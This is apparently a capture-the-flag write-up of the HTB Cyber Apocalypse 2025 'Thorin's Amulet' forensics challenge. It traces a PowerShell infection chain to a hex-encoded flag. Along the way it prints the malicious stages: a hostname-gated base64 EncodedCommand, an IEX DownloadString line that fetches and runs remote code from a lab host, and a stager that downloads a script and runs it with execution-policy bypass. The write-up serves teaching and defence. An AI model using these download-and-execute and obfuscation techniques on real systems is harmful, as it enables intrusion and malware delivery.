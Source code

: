 ```yaml
---
title: "Thorin's Amulet – PowerShell Stager Chain (HTB Cyber Apocalypse 2025)"
tags: [CTF, forensics, powershell, base64, stager, headers, network]
---
```


# Thorin's Amulet 🖥️💉

![PowerShell](https://img.shields.io/badge/language-PowerShell-blue.svg)
![Difficulty](https://img.shields.io/badge/difficulty-Easy-blue.svg)
![Category](https://img.shields.io/badge/category-Forensics-lightgrey.svg)
![CTF](https://img.shields.io/badge/Event-HTB%20Cyber%20Apocalypse%202025-purple)

Garrick and Thorin’s visit to Stonehelm took an unexpected turn when Thorin’s old rival, Bron Ironfist, challenged him to a forging contest. 

In the end Thorin won the contest with a beautifully engineered clockwork amulet but the victory was marred by an intrusion. 

Saboteurs stole the amulet and left behind some tracks. 

Because of that it was possible to retrieve the malicious artifact that was used to start the attack. Can you analyze it and reconstruct what happened? 

Note: make sure that domain korp.htb resolves to your docker instance IP and also consider the assigned port to interact with the service.

## 📚 Table of Contents

- [Initial Script 📜](#initial-script-)
- [Stage 1 – Decoding the Base64 Payload 🔍](#stage-1--decoding-the-base64-payload-)
- [Stage 2 – Visiting `/update` 📡](#stage-2--visiting-update-)
- [Stage 3 – Extracting the Stager 🧱](#stage-3--extracting-the-stager-)
- [Stage 4 – Using Custom Headers 🌐](#stage-4--using-custom-headers-)
- [Final Payload – Decoding the Flag 🎯](#final-payload--decoding-the-flag-)
- [Conclusion 🧾](#conclusion-)

A mysterious PowerShell script is discovered on an internal host. It seems to target a specific machine — perhaps a part of a larger staged infection system. 

Our mission: **trace the execution, follow the network trail, and extract the flag hidden within.**

## Initial Script 📜

We begin with this PowerShell dropper:

```powershell
function qt4PO {
    if ($env:COMPUTERNAME -ne "WORKSTATION-DM-0043") {
        exit
    }
    powershell.exe -NoProfile -NonInteractive -EncodedCommand "SUVYIChOZXctT2JqZWN0IE5ldC5XZWJDbGllbnQpLkRvd25sb2FkU3RyaW5nKCJodHRwOi8va29ycC5odGIvdXBkYXRlIik="
}
qt4PO
```

Clearly, it:
- Checks that the hostname is `WORKSTATION-DM-0043`
- Executes a **base64-encoded PowerShell command**

## Stage 1 – Decoding the Base64 Payload 🔍

Decoding the string:

```
SUVYIChOZXctT2JqZWN0IE5ldC5XZWJDbGllbnQpLkRvd25sb2FkU3RyaW5nKCJodHRwOi8va29ycC5odGIvdXBkYXRlIik=
```

We get:

```powershell
IEX (New-Object Net.WebClient).DownloadString("http://korp.htb/update")
```

So the script simply **downloads and executes remote PowerShell code** from `/update`.

## Stage 2 – Visiting `/update` 📡

We browse to:

```
http://<IP>:<PORT>/update
```

We get the **next stage** of the infection:

```
function aqFVaq {
    Invoke-WebRequest -Uri "http://korp.htb/a541a" -Headers @{"X-ST4G3R-KEY"="5337d322906ff18afedc1edc191d325d"} -Method GET -OutFile a541a.ps1
    powershell.exe -exec Bypass -File "a541a.ps1"
}
aqFVaq
```

This is a **stager** that:
1. Sends a GET request to `/a541a` with a custom header
2. Saves the response as `a541a.ps1`
3. Executes it locally with `-exec Bypass`

## Stage 3 – Extracting the Stager 🧱

We simulate this manually by navigating to:

```
http://<IP>:<PORT>/a541a
```

And adding the correct header:

```
X-ST4G3R-KEY: 5337d322906ff18afedc1edc191d325d
```

We now get a **base64 response**, as shown in this screenshot:

![DevTools showing base64 blob](https://github.com/user-attachments/assets/08770f51-92aa-4a01-891b-3c4176accd1e)

## Stage 4 – Using Custom Headers 🌐

Once the base64 payload is decoded, we obtain this obfuscated script:

```powershell
$a35 = "4854427b37683052314e5f4834355f346c573459355f3833336e5f344e5f39723334375f314e56336e3730727d"
($a35-split"(..)"|?{$_}|%{[char][convert]::ToInt16($_,16)}) -join ""
```

This:
- Defines a variable with a long **hex-encoded string**
- Splits it into bytes
- Converts to ASCII characters
- Joins it all → revealing the flag

## Final Payload – Decoding the Flag 🎯

We decode the hex manually or via Python/PowerShell:

```text
HTB{7h0R1N_H45_4lW4Y5_833n_4N_9r347_1NV3n70r}
```

✅ **Flag captured!**

## Conclusion 🧾

This forensics challenge demonstrated a **classic staged infection chain**, involving:

- Host-based targeting (`$env:COMPUTERNAME`)
- Base64-encoded PowerShell stager
- HTTP requests with **custom headers** (for access control)
- Payloads stored in multiple layers of encoding (Base64 → Hex → ASCII)

**Key takeaways**:
- Always monitor `Invoke-WebRequest` and encoded PowerShell commands
- Pay attention to headers used in suspicious requests
- Encodings can hide important payloads — be ready to decode recursively

🕵️‍♂️ Another threat neutralized in Cyber Apocalypse 2025.

🔙 [Back to Cyber Apocalypse 2025 Writeups](../../)
